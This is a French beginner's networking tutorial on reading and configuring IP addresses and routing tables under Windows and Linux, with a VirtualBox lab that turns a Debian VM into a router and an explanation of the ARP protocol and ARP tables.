Par exemple, vous avez déjà découvert deux architectures réseau dans nos précédents exercices sur le routage ; regardez donc la figure suivante.
Ceci est une architecture qui fait le lien entre nos machines, nos routeurs, nos switchs et Internet.
Euh, ils sont où les switchs ? Je ne les vois pas sur le schéma…
En fait, ce schéma est ce que nous appelons un schéma logique. Cela veut dire que nous représentons dessus la logique de connexions entre les réseaux.
Ainsi, les switchs qui sont censés être propres à un réseau ne sont pas vraiment représentés. Ils le sont plus ou moins par les barres horizontales qui identifient chacun des réseaux.
Étape 1, notre machine
Avant de nous plonger dans une architecture complexe, nous allons déjà aborder ce que l'on peut voir au niveau du routage et de la couche 3 avec notre machine.
Sous Windows
J'imagine que la grande majorité d'entre vous se trouvant sous Windows, il peut être intéressant de voir ce que l'on peut faire sur ce système.
En ce qui me concerne, je suis sous Windows XP pro. Si jamais vous êtes sous Vista ou Seven, l'interface a été légèrement modifiée mais les mêmes informations sont toujours présentes.
Déjà, il faut comprendre qu'une partie des informations sera visible et configurable en ligne de commande DOS, et une autre partie ne le sera que depuis l'interface graphique.
Commençons par la ligne de commande.
Pour ouvrir une fenêtre DOS, cliquez sur Démarrer, puis exécuter, et tapez "cmd" dans l'invite de commande. Une fenêtre DOS devrait s'ouvrir, semblable à la figure suivante.
Nous allons regarder notre configuration réseau à l'aide de la commande ipconfig. On va en profiter pour agrandir notre fenêtre pour voir tout ce qui se passe à l'écran.
Pour moi c'est assez simple, je n'ai qu'une carte réseau (voir la figure suivante).
Nous voyons ici trois informations intéressantes :
je possède l'adresse IP 10.8.98.231 ;
elle est associée au masque 255.255.240.0 ;
et j'ai comme passerelle par défaut 10.8.97.1.
Vous pouvez vous amuser à calculer ma plage d'adresses réseau si cela vous tente ! :p
Maintenant, regardons la table de routage que nous pouvons voir à l'aide de la commande route print (voir la figure suivante).
On voit ici ma passerelle par défaut identifiée par l'écriture 0.0.0.0/0. On voit aussi mon propre réseau local 10.8.96.0/20 qui a pour passerelle mon adresse 10.8.98.231. Tout cela est bien normal.
Par contre, Windows nous ajoute une foultitude de routes de plus auxquelles nous ne nous intéresserons pas, car elles sont propres à l'implémentation que fait Windows du routage.
Maintenant que je connais ma passerelle, puis-je communiquer avec elle ?
Oui, et nous avons la commande ping pour cela. Cette commande permet de savoir si nous arrivons à joindre une machine (voir figure suivante).
Nous voyons ici qu'une requête a été envoyée à la machine 10.8.97.1 (en fait, 4 requêtes ont été envoyées).
La machine nous répond ensuite 4 fois.
On voit un temps de réponse de 17 ms pour la première requête, puis ce temps est plus bas pour les autres, pourquoi ?
(Si vous n'avez pas la réponse, nous y reviendrons dans le prochain chapitre.)
Ça marche, nous communiquons avec la machine 10.8.97.1 ! :D
Pouvons-nous aller plus loin et sortir de notre réseau ? Joindre le Site du Zéro par exemple ?
Comme vous pouvez le constater sur la figure précédente, ça marche encore ! De plus, nous voyons même que l'adresse IP du Site du Zéro est 92.243.25.239.
Si vous vous souvenez, nous pouvons aussi voir les routeurs par lesquels nous passons pour joindre une destination grâce au traceroute qui, sous Windows, se fait par la commande tracert. Je vous en donne un intéressant en figure suivante.
J'ai fait un tracert vers le site web de mon école, mais il n'aboutit pas... Cela ne veut bien sûr pas dire que la machine n'est pas joignable, mais simplement qu'il y a un routeur sur le chemin qui bloque l'envoi ou la réception de mon traceroute.
Il est par ailleurs intéressant de voir aux étapes 9, 10 et 11 que nous passons sur Internet par des réseaux privés ayant des adresses RFC 1918 !!
Cela est dû au fait que les opérateurs utilisent ces adresses sur leurs réseaux privés mais que ces routeurs ne communiquent pas directement avec des machines d'Internet.
Ainsi, nous voyons bien que notre machine possède tous les éléments nécessaires au bon fonctionnement de la couche 3.
En revanche, s'il n'est pas simple sous Windows de modifier sa configuration réseau, cela peut se faire très facilement graphiquement.
Cliquez sur Démarrer, puis Panneau de configuration et choisissez Connexions réseau. Vous cliquez avec le bouton droit sur la connexion que vous voulez voir, puis dans la nouvelle fenêtre, cliquez sur Protocole Internet (TCP/IP) et enfin sur Propriétés.
Voici à la figure suivante ce que vous devriez voir.
Ici, on voit que mon adresse IP est donnée automatiquement. En fait, c'est le routeur de mon opérateur qui me la fournit.
Ceci dit, on peut tout à fait fixer soi-même ces informations (voir la figure suivante).
Voilà, vous savez maintenant où trouver les informations IP sous Windows et comment les modifier.
Regardons maintenant sous Linux ce que cela peut donner.
Sous Linux
Je vous conseille d'utiliser une Debian.
Debian est une distribution formidable et très orientée services et stabilité. Ainsi, en installant une Debian de base sans environnement graphique, vous aurez une machine consommant très peu de ressources. Et vu que nous allons par la suite installer plusieurs machines virtuelles sur votre machine, il serait intéressant de ne pas consommer trop de ressources pour que votre machine tienne la charge.
Pour l'instant, nous allons découvrir les commandes utiles sous Linux pour accéder aux informations réseau.
Pour afficher son adresse IP, c'est la commande ifconfig.
Nous pouvons y voir notre adresse IP 88.191.45.68, notre masque 255.255.255.0 et l'adresse de broadcast 88.191.45.255.
Enfin nous avons l'interface lo (pour local, ou loopback) qui est une interface réseau virtuelle qui n'est accessible que sur la machine elle-même. Son adresse est toujours 127.0.0.1, sur toutes les machines. C'est une convention.
Pour voir ma table de routage, la commande est route -n :
sd-6555:~# route -n
Table de routage IP du noyau
Destination Passerelle Genmask Indic Metric Ref Use Iface
88.191.45.0 0.0.0.0 255.255.255.0 U 0 0 0 eth0
0.0.0.0 88.191.45.1 0.0.0.0 UG 0 0 0 eth0
On voit tout de suite la sobriété de cette table par rapport à Windows ! ;)
La première ligne est pour notre réseau, et on voit une particularité de Linux qui n'indique pas notre adresse, mais 0.0.0.0. C'est comme ça.
La seconde est la route par défaut qui est ici 88.191.45.1.
Maintenant que nous avons affiché les informations, nous allons voir ce qu'il faut faire pour les modifier.
Sous Linux, tout est modifiable depuis la ligne de commande.
Par exemple, on peut utiliser la commande ifconfig avec des options pour modifier son adresse et la remplacer par 10.0.0.1/24 :
Nous allons maintenant modifier la table de routage. Pour cela, la commande est encore route, à utiliser avec des options.
Par exemple, nous allons enlever notre route par défaut, et la changer pour 10.0.0.254 vu que nous avons déjà changé notre adresse IP.
sd-6555:~# route del default
sd-6555:~# route add default gw 10.0.0.254
sd-6555:~# route -n
Table de routage IP du noyau
Destination Passerelle Genmask Indic Metric Ref Use Iface
10.0.0.0 0.0.0.0 255.255.255.0 U 0 0 0 eth0
0.0.0.0 10.0.0.254 0.0.0.0 UG 0 0 0 eth0
Nous pouvons même ajouter une route spécifique si nous le souhaitons pour aller vers le réseau 192.168.0.0/24 en passant par la passerelle 10.0.0.253 :
sd-6555:~# route add -net 192.168.0.0 netmask 255.255.255.0 gw 10.0.0.253
sd-6555:~# route -n
Table de routage IP du noyau
Destination Passerelle Genmask Indic Metric Ref Use Iface
10.0.0.0 0.0.0.0 255.255.255.0 U 0 0 0 eth0
192.168.0.0 10.0.0.253 255.255.255.0 U 0 0 0 eth0
0.0.0.0 10.0.0.254 0.0.0.0 UG 0 0 0 eth0
Vous savez maintenant modifier l'adressage et la table de routage d'une machine Linux, nous allons pouvoir passer au premier TP ! :D
Étape 2, mise en place de notre architecture
Un premier réseau simple
Nous allons mettre en place dans un premier temps un réseau très simple. Il sera constitué de deux réseaux reliés entre eux par un routeur.
Voici à la figure suivante le schéma logique.
Nous allons donc créer trois machines virtuelles sous Linux. Les deux premières vont jouer le rôle de machines clientes, la troisième jouant le rôle de routeur entre les deux réseaux.
Création des machines virtuelles
Prérequis : il vous faudra pour être tranquille 30 Go de disque dur pour installer les machines virtuelles. Un minimum de 2 Go de RAM serait bien également.
Si vous n'êtes pas habitués à utiliser des machines virtuelles, vous allez voir, c'est très simple.
Le principe est de faire tourner une ou plusieurs machines en parallèle de votre machine principale. Ainsi vous pouvez avoir un Windows installé sur votre machine, et un Linux qui tourne en même temps en tant que machine virtuelle.
Par exemple, je fais tourner un Windows XP pro sur mon Mac et je peux travailler sur les deux en parallèle (voir la figure suivante).
Je vais considérer que vous êtes sous Windows, mais de toute façon, l'installation est possible sous Mac OS ainsi que sous Linux.
Nous allons donc installer un programme qui nous permet de virtualiser des machines, il s'agit de Virtualbox.
Vous pouvez aussi choisir vmware ou VirtualPC pour virtualiser si vous y êtes habitués, mais les manipulations seront faites sous Virtualbox dans ce TP.
Allez télécharger la dernière version de Virtualbox et installez-la. L'installation est très simple, il suffit de cliquer sur next à chaque étape. ;)
Avant de créer notre première machine virtuelle, nous allons voir qu'il y a plusieurs façons de les créer. La première est celle que vous utilisez habituellement pour installer des machines, c'est-à-dire récupérer une image disque du système d'exploitation à installer, la graver sur un CD ou un DVD, puis insérer le CD ou le DVD dans le lecteur pour commencer l'installation en redémarrant la machine. La seconde est plus simple et nous allons l'utiliser. Elle consiste à récupérer une image d'une machine déjà existante et à la copier directement dans Virtualbox.
Positionnez ce fichier .vdi dans un répertoire que nous allons appeler... répertoire ! Lancez Virtualbox ; vous devriez voir apparaître une fenêtre semblable à la figure suivante.
Image Virtualbox
Nous allons maintenant créer trois machines virtuelles à partir de notre image.
Pour cela, cliquez sur New, ou Nouveau. Cliquez sur Suivant, puis donnez un nom à votre machine virtuelle, par exemple Debian01. Choisissez Linux Debian comme système. Mettez 256 Mo comme mémoire (on n'a pas besoin de plus en environnement graphique !).
Ensuite, choisissez un disque existant puis Ajouter et allez pointer sur votre fichier Debian01.vdi dans le répertoire choisi. Choisissez ce disque et cliquez sur Suivant. Votre Debian est installée et prête à l'emploi.
Avant d'aller plus loin, essayez de la démarrer en cliquant dessus puis Lancer. Normalement tout se lance tout seul et la machine boot. Vous devriez vous retrouver devant l'invite de login. Le login est root et le mot de passe est siteduzero.
Si vous obtenez un prompt : debian01:~# c'est gagné ! Vous pouvez maintenant arrêter cette machine avec la commande init 0.
Nous allons maintenant dupliquer notre machine Debian pour avoir plusieurs machines virtuelles et faire du réseau entre elles.
Pour la dupliquer, ou la cloner, nous allons utiliser la fonction de clonage qui est disponible directement dans Virtualbox. Faites un clic droit sur votre machine virtuelle et choisissez cloner. Choisissez le nom de votre clone, par exemple Debian02, et sélectionnez réinitialisez l'adresse MAC de toutes les cartes réseau. Sélectionnez Clone intégral, et cliquez enfin sur Cloner.
Refaites la même opération pour Debian03, et hop, vos trois machines virtuelles sont prêtes !
Il ne vous reste qu'à refaire les étapes de création des machines virtuelles. Vous devriez maintenant avoir vos trois machines virtuelles prêtes à l'emploi, comme indiqué en figure suivante.
Il nous reste juste à configurer le réseau. Pour cela, allez dans l'interface de Virtualbox, et pour chacune des 3 machines double-cliquez sur réseau, dans la colonne de droite (voir la figure suivante).
Puis choisissez Accès par pont et indiquez la carte réseau qui est connectée à Internet sur votre machine (si jamais vous avez une carte wifi et une carte réseau filaire). Dans mon cas, j'ai indiqué la carte wifi (voir la figure suivante).
Nous sommes OK pour le réseau. Démarrez les trois machines virtuelles et connectez-vous à chacune d'entre elles avec le login indiqué plus haut.
Réalisation du TP
Nous connaissons déjà la commande ifconfig qui permet de voir sa configuration réseau et de changer son adresse.
Faites un ifconfig et vérifiez que vous avez bien les cartes eth0 et lo.
Pour la suite du TP, je considérerai que c'est eth0 qui fonctionne, vous le remplacerez si nécessaire.
Commençons le TP. Donnez les adresses suivantes aux machines :
192.168.10.1/24 à la machine 1 ;
192.168.10.254/24 à la machine 2 ;
192.168.11.1/24 à la machine 3.
Solution
Sur Debian 01 : ifconfig eth0 192.168.10.1 netmask 255.255.255.0
Sur Debian 02 : ifconfig eth0 192.168.10.254 netmask 255.255.255.0
Sur Debian 03 : ifconfig eth0 192.168.11.1 netmask 255.255.255.0
Essayez maintenant de pinguer la machine Debian02 depuis la machine Debian01, que se passe-t-il ?
Solution
debian01:~# ping 192.168.10.254
PING 192.168.10.254 (192.168.10.254) 56(84) bytes of data.
64 bytes from 192.168.10.254: icmp_seq=1 ttl=64 time=3.18 ms
64 bytes from 192.168.10.254: icmp_seq=2 ttl=64 time=0.121 ms
64 bytes from 192.168.10.254: icmp_seq=3 ttl=64 time=0.123 ms
^C
--- 192.168.10.254 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2006ms
rtt min/avg/max/mdev = 0.121/1.142/3.184/1.443 ms
On voit que le ping fonctionne.
Essayez maintenant de pinguer Debian03.
Solution
debian01:~# ping 192.168.11.1
PING 192.168.11.1 (192.168.11.1) 56(84) bytes of data.
From 192.168.11.1 icmp_seq=2 Destination Host Unreachable
From 192.168.11.1 icmp_seq=3 Destination Host Unreachable
From 192.168.11.1 icmp_seq=4 Destination Host Unreachable
^C
--- 192.168.11.1 ping statistics ---
5 packets transmitted, 0 received, +3 errors, 100% packet loss, time 4003ms
, pipe 3
Ici, le ping ne marche pas. Et c'est bien normal, car les machines Debian01 et Debian03 ne sont pas dans le même réseau. Il n'y a pas de routeur pour relier les deux réseaux, donc cela ne peut pas marcher.
Il nous faut ajouter une interface à la machine Debian02 dans le réseau de Debian03 pour relier les deux réseaux.
Configuration du routeur
C'est donc la machine Debian02 qui va jouer le rôle de routeur.
La première chose à faire est de lui ajouter une adresse IP supplémentaire dans le réseau 192.168.11.0/24.
Mais nous n'avons qu'une carte réseau !?
Ce n'est pas grave, car sous Linux, nous pouvons ajouter autant d'adresses que nous voulons à une interface réseau.
Nous allons en fait créer une interface virtuelle eth0:0.
En effet, pour l'instant, notre machine se comporte comme une simple machine et rejette les paquets qui ne sont pas destinés à sa propre adresse IP. Pour qu'elle se comporte comme un routeur, il faut activer le routage. Pour cela, c'est très simple, car il suffit de mettre 1 à la place de 0 dans un fichier :
echo 1 > /proc/sys/net/ipv4/ip_forward
Et hop, notre machine est désormais un routeur !
Nous pouvons essayer de pinguer Debian03 depuis Debian01.
debian01:~# ping 192.168.11.1
PING 192.168.11.1 (192.168.1.1) 56(84) bytes of data.
From 192.168.11.1 icmp_seq=2 Destination Host Unreachable
From 192.168.11.1 icmp_seq=3 Destination Host Unreachable
From 192.168.11.1 icmp_seq=4 Destination Host Unreachable
^C
--- 192.168.11.1 ping statistics ---
5 packets transmitted, 0 received, +3 errors, 100% packet loss, time 4003ms
, pipe 3
Oups ! Ça ne fonctionne pas...
C'est normal, car pour l'instant, la machine Debian01 ne sait pas qu'il faut envoyer ses paquets à Debian02.
Nous devons mettre une route dans sa table de routage pour que cela fonctionne. Vu que notre réseau est très simple, nous pouvons lui mettre une route par défaut. Regardons sa table de routage, puis ajoutons une route par défaut :
debian01:~# route -n
Table de routage IP du noyau
Destination Passerelle Genmask Indic Metric Ref Use Iface
192.168.10.0 0.0.0.0 255.255.255.0 U 0 0 0 eth0
debian01:~# route add default gw 192.168.10.254
Table de routage IP du noyau
Destination Passerelle Genmask Indic Metric Ref Use Iface
192.168.10.0 0.0.0.0 255.255.255.0 U 0 0 0 eth0
0.0.0.0 192.168.10.254 0.0.0.0 UG 0 0 0 eth0
Ça ne marche toujours pas... Pourtant la machine Debian01 sait à qui il faut envoyer les paquets pour joindre Debian03 !
Avez-vous une idée de ce qui se passe ?
En fait, la machine Debian01 fait bien son boulot, sa table de routage lui dit que pour joindre le réseau 192.168.11.0/24, il faut passer par la route par défaut, et elle peut le faire. Elle envoie donc son paquet au routeur Debian02 192.168.10.254. Debian02 reçoit le paquet, voit en couche 2 son adresse MAC, lit l'adresse IP destination en couche 3 et voit que le paquet n'est pas pour elle. Vu que le routage est activé, elle va voir dans sa table de routage à qui elle doit l'envoyer.
Elle voit que 192.168.11.1 appartient à son propre réseau, elle fait donc une requête ARP et peut envoyer sa trame à 192.168.11.1.
Jusqu'ici tout roule.
192.168.11.1 reçoit le ping !
Mais par contre, sa table de routage ne possédant pas de route par défaut, il ne sait pas renvoyer la réponse...
La machine Debian01 ne reçoit donc jamais de réponse.
Nous pouvons le vérifier grâce à la commande tcpdump.
Tcpdump est un sniffer. C'est un programme qui est capable d'écouter toutes les trames qui arrivent sur notre carte réseau et de nous les afficher à l'écran. Nous allons successivement utiliser le sniffer sur Debian01, Debian02 sur l'interface eth0, Debian02 sur l'interface eth0:0 et enfin Debian03.
debian01:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
15:56:48.670431 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 1, length 64
15:56:49.669414 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 2, length 64
15:56:50.668679 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 3, length 64
15:56:51.668678 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 4, length 64
Ici, on voit que la machine Debian01 envoie bien les requêtes vers Debian03.
debian02:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
15:56:48.670431 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 1, length 64
15:56:49.669414 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 2, length 64
15:56:50.668679 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 3, length 64
15:56:51.668678 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 4, length 64
La machine Debian02 voit bien arriver les requêtes sur son interface eth0 (192.168.10.254).
debian02:~# tcpdump -i eth0:0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
15:56:48.670431 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 1, length 64
15:56:49.669414 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 2, length 64
15:56:50.668679 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 3, length 64
15:56:51.668678 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 4, length 64
Elle voit même les requêtes ressortir de son interface eth0:0.
debian03:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
15:56:48.670431 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 1, length 64
15:56:49.669414 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 2, length 64
15:56:50.668679 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 3, length 64
15:56:51.668678 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 4, length 64
Et la machine Debian03 voit bien arriver les requêtes sur son interface eth0, mais aucune réponse ne ressort.
Ce problème est très connu sous le nom de problème de la route de retour.
Souvent les personnes pensent à configurer l'envoi des informations, mais ne pensent pas au retour.
Il faut donc ajouter une route par défaut à Debian03.
debian03:~# route -n
Table de routage IP du noyau
Destination Passerelle Genmask Indic Metric Ref Use Iface
192.168.11.0 0.0.0.0 255.255.255.0 U 0 0 0 eth0
debian03:~# route add default gw 192.168.11.254
Table de routage IP du noyau
Destination Passerelle Genmask Indic Metric Ref Use Iface
192.168.11.0 0.0.0.0 255.255.255.0 U 0 0 0 eth0
0.0.0.0 192.168.11.254 0.0.0.0 UG 0 0 0 eth0
Et maintenant notre ping... fonctionne !
Et nous pouvons le voir avec tcpdump :
debian01:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
15:56:48.670431 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 1, length 64
15:56:48.670662 IP 192.168.11.1 > 192.168.10.1: ICMP echo reply, id 15160, seq 1, length 64
15:56:49.669414 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 2, length 64
15:56:49.669606 IP 192.168.11.1 > 192.168.10.1: ICMP echo reply, id 15160, seq 2, length 64
15:56:50.668679 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 3, length 64
15:56:50.668874 IP 192.168.11.1 > 192.168.10.1: ICMP echo reply, id 15160, seq 3, length 64
15:56:51.668678 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 4, length 64
15:56:51.668864 IP 192.168.11.1 > 192.168.10.1: ICMP echo reply, id 15160, seq 4, length 64
15:56:52.668676 IP 192.168.10.1 > 192.168.11.1: ICMP echo request, id 15160, seq 5, length 64
15:56:52.668859 IP 192.168.11.1 > 192.168.10.1: ICMP echo reply, id 15160, seq 5, length 64
On voit bien ici les requêtes de Debian01 et les réponses de Debian02.
debian01:~# ping 192.168.11.1
PING 192.168.11.1 (192.168.11.1) 56(84) bytes of data.
64 bytes from 192.168.11.1: icmp_seq=1 ttl=64 time=3.18 ms
64 bytes from 192.168.11.1: icmp_seq=2 ttl=64 time=0.121 ms
64 bytes from 192.168.11.1: icmp_seq=3 ttl=64 time=0.123 ms
^C
--- 192.168.10.254 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2006ms
rtt min/avg/max/mdev = 0.121/1.142/3.184/1.443 ms
Que faut-il en retenir ?
Il faut toujours penser qu'on ne peut joindre une machine QUE si le routage fonctionne dans les DEUX SENS.
Il est souvent intéressant d'écrire les tables de routage sur papier avant de mettre en place une infrastructure pour éviter que cela ne fonctionne pas, une fois mis en place.
Ça y est, nous avons mis en place notre premier réseau routé !
Étape 3, pour ceux qui le souhaitent
Il s'agit de mettre en place le gros réseau que nous avions étudié (voir la figure suivante). Je ne vais pas refaire ce TP avec vous, vous avez maintenant toutes les informations nécessaires pour le réaliser.
Création des machines
Vous avez déjà trois machines créées. Pour réaliser cette architecture, vous en aurez besoin de 5 en plus (4 routeurs et une machine par réseau). Créez les machines comme nous l'avons fait précédemment.
Écriture des tables de routage
Écrivez toutes les tables de routage de toutes les machines du réseau sur papier.
Configuration
Mettez en place la configuration IP de toutes les machines ainsi que le routage tel que vous l'avez écrit sur papier.
Pour créer une route qui ne soit pas une route par défaut, donc pour un réseau spécifique, la syntaxe est : route add -net 192.168.10.0 netmask 255.255.255.0 gw 192.168.11.254
Et pour enlever une route : route del -net 192.168.10.0 netmask 255.255.255.0
Tests
Pour tester votre réseau, vous avez bien sûr la commande ping, mais aussi traceroute ou tcpdump.
Utilisez-les pour comprendre d'où peut venir un éventuel problème.
Vous maîtrisez le protocole IP (ou du moins une partie).
Vous savez ce qu'est le routage.
Vous savez connecter des réseaux entre eux.
Vous savez configurer l'adresse de machines sous Windows et Linux.
Vous savez configurer le routage sous Linux.
Nous connaissons maintenant bien le protocole IP, mais nous allons voir qu'il existe d'autres protocoles pour la couche 3...
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous avons vu comment les paquets circulaient d'un réseau à un autre et comment ils étaient aiguillés. Nous avons aussi vu avec la couche 2 comment les paquets circulaient au sein d'un même réseau.
Y a-t-il un lien entre la couche 2 et la couche 3 ? Par ailleurs, IP est-il le seul protocole de couche 3 utilisé aujourd'hui ?
Nous allons maintenant nous pencher sur ces questions, et y apporter des réponses ! :p
Vous allez vite le comprendre ! Prenons le schéma de la figure suivante.
Imaginons que la machine 192.168.0.1 veuille envoyer un message à la machine 192.168.1.2.
Nous allons reconstituer son raisonnement.
Lors d'un envoi de message, nous traversons les couches du modèle OSI de la couche application vers la couche réseau.
Nous traversons donc la couche 7, puis la couche 4, et enfin la couche 3 que nous connaissons maintenant.
La couche 3 voit que nous voulons envoyer un paquet à la machine 192.168.1.2. Elle va donc chercher dans sa table de routage par qui il faut passer pour envoyer ce message.
Table de routage de 192.168.0.1
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.1
192.168.1.0/24
192.168.0.254
Il est clairement indiqué que nous devons passer par la passerelle 192.168.0.254 pour joindre le réseau 192.168.1.0/24 qui contient l'adresse que l'on veut joindre. Notre machine sait donc qu'il va falloir envoyer le paquet à 192.168.0.254.
La machine 192.168.0.254 est sur notre réseau, donc pour lui envoyer la trame nous devons connaître son adresse MAC. Or, nous ne la connaissons pas...
Comment faire pour connaître l'adresse MAC de 192.168.0.254 ?
Il faudrait pouvoir la lui demander, mais pour lui demander il faudrait connaître son adresse MAC, et pour connaître son adresse MAC il faudrait la lui demander... c'est une fois de plus l'histoire de la poule et de l’œuf.
Mais il y a une solution : le protocole ARP !
Le protocole ARP
Comment faire pour envoyer un message à une machine sur notre réseau sans connaître son adresse MAC ?
Si vous vous rappelez bien, nous avons vu quelque chose qui nous le permettait... il s'agit de l'adresse de broadcast !
Nous pouvons envoyer un message à l'adresse de broadcast en demandant "est-ce que 192.168.0.254 peut m'envoyer son adresse MAC ?"
Grâce à l'adresse de broadcast ce message sera envoyé à tout le monde, et donc 192.168.0.254 le recevra et pourra nous renvoyer son adresse MAC.
C'est ce que l'on appelle une requête ARP ou aussi un broadcast ARP.
Nous pourrons alors envoyer notre trame à la machine 192.168.0.254 qui, grâce à sa table de routage, pourra aiguiller notre message vers la destination 192.168.1.2.
Mais les broadcasts ne risquent-ils pas de saturer le réseau à chaque fois que l'on veut envoyer une information ?
Bien sûr, et c'est pour cela qu'un mécanisme complémentaire a été mis en place, la table ARP.
La table ARP
Pour éviter d'avoir à renvoyer en permanence des broadcasts ARP à chaque fois que l'on veut envoyer une information à une machine, nous allons utiliser une table qui va garder les associations adresses IP <-> Adresses MAC pendant un court moment.
Ainsi, si j'envoie un paquet à ma passerelle, je noterai son adresse MAC dans ma table et la prochaine fois que je voudrai lui parler, je n'aurai plus à envoyer de broadcast sur le réseau.
La table ARP va donc associer adresse IP et adresse MAC correspondante.
Voici un exemple de (grosse !) table ARP sous Unix :
# arp -an
? (10.8.98.3) at 00:26:bb:16:21:84 on sis4
? (10.8.98.85) at 00:18:71:ea:55:03 on sis4
? (10.8.98.205) at 00:18:f3:0a:38:dc on sis4
? (10.8.98.235) at 00:08:02:3f:ee:bb on sis4
? (10.8.99.179) at 00:0c:29:58:9c:18 on sis4
? (10.8.99.181) at 00:0c:29:93:e5:02 on sis4
? (10.8.99.182) at 00:0c:29:ed:8e:d4 on sis4
? (10.8.99.183) at 00:0c:29:7d:1d:6e on sis4
? (10.8.99.184) at 00:0c:29:04:7d:35 on sis4
? (10.8.99.185) at 00:0c:29:ad:70:1f on sis4
? (10.8.99.186) at 00:0c:29:8a:59:a4 on sis4
? (10.8.99.187) at 00:0c:29:38:8d:59 on sis4
? (10.8.99.201) at 00:1e:2a:49:a7:61 on sis4
? (10.8.99.230) at 00:e0:4c:a1:c7:21 on sis4
? (10.8.100.15) at 78:d6:f0:0b:ed:27 on sis4
? (10.8.100.37) at 00:0c:29:06:04:cc on sis4
? (10.8.100.38) at 00:0c:29:bf:93:8b on sis4
? (10.8.100.39) at 00:0c:29:61:e8:68 on sis4
? (10.8.100.40) at 00:0c:29:7b:ca:40 on sis4
? (10.8.100.41) at 00:0c:29:c6:49:27 on sis4
? (10.8.111.255) at (incomplete) on sis4
? (192.168.1.1) at 00:19:15:25:d5:3c on sis0
? (192.168.1.15) at 00:00:24:c6:1f:40 on sis0 static
? (192.168.1.48) at (incomplete) on sis0
On voit ici que ma machine dialogue avec beaucoup d'autres machines sur son réseau. Mais c'est normal puisqu'il s'agit de la passerelle de sortie de mon réseau.
Ainsi, quand la passerelle voudra envoyer un paquet à l'adresse 10.8.100.41, elle connaîtra directement son adresse MAC.
Mais si jamais je change la carte réseau de ma machine ? Elle changera aussi d'adresse MAC, mais ce sera l'ancienne qui sera indiquée dans la table ?
Non, car les informations contenues dans la table ARP ont une durée de vie limitée. En gros, une valeur va rester environ deux minutes dans la table avant d'être effacée s'il n'y a pas eu de dialogue avec cette adresse entre-temps. C'est pour cela que l'on dit que la table ARP est dynamique. Elle évolue au cours du temps en fonction des machines avec lesquelles je dialogue.
La commande sous Unix pour voir sa table ARP est arp -an ; elle est arp - a sous Windows.
Bien sûr vous risquez de voir peu de chose chez vous s'il n'y a que deux ou trois machines sur votre réseau.
Déroulement de A à Z d'une requête ARP
Reprenons l'exemple précédent : nous sommes la machine 192.168.0.1 et voulons envoyer un message à la machine 192.168.1.2.
Nous savons que nous voulons joindre d'abord le routeur 192.168.0.254, mais ne connaissons pas son adresse MAC.
C'est là que le protocole ARP entre en jeu :
on regarde d'abord dans la table ARP locale si on possède l'association entre l'adresse IP 192.168.0.254 et son adresse MAC ;
si on la possède, on envoie l'information et c'est terminé ;
sinon, on envoie un broadcast ARP sur le réseau ;
la machine 192.168.0.254 va nous répondre avec son adresse MAC ;
nous allons noter cette adresse MAC dans notre table ARP ;
nous allons enfin pouvoir envoyer notre information.
Nous savons maintenant comment font les machines pour passer d'une adresse IP à joindre à l'adresse MAC correspondante : grâce au protocole ARP !
Mais à quelle couche appartient ce protocole : 2 ou 3 ?
Je vous laisse chercher tout seul, vous faire votre idée, puis lire la réponse... ;)
Le protocole ARP est un protocole de couche... 2 ET 3 !
Oui, il manipule des informations de couche 2, les adresses MAC, et des informations de couche 3, les adresses IP. Ainsi, on dit que ce protocole est "à cheval" entre ces deux couches.
Maintenant que nous connaissons ce protocole et son utilité, nous allons revoir de A à Z une communication entre deux machines.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous allons une fois de plus reprendre l'exemple précédent entre la machine 192.168.0.1 et 192.168.1.2 (voir la figure suivante), et imaginer que la machine 192.168.0.1 veuille faire une requête web vers la machine 192.168.1.2.
Détail de la communication
Étape 1, la machine locale
Comme nous l'avons vu précédemment, notre information va traverser les différentes couches du modèle OSI (voir la figure suivante).
Une fois au niveau de la couche 3, nous regardons alors la table de routage, et savons qu'il faut envoyer le paquet à 192.168.0.254 pour sortir de notre réseau. Nous faisons une requête ARP et obtenons l'adresse MAC de 192.168.0.254.
Nous pouvons maintenant former la trame qui va circuler sur le réseau :
@MAC 192.168.0.254
@MAC 192.168.0.1
IP
???
IP SRC: 192.168.0.1
IP DST: 192.168.1.2
Données à envoyer
CRC
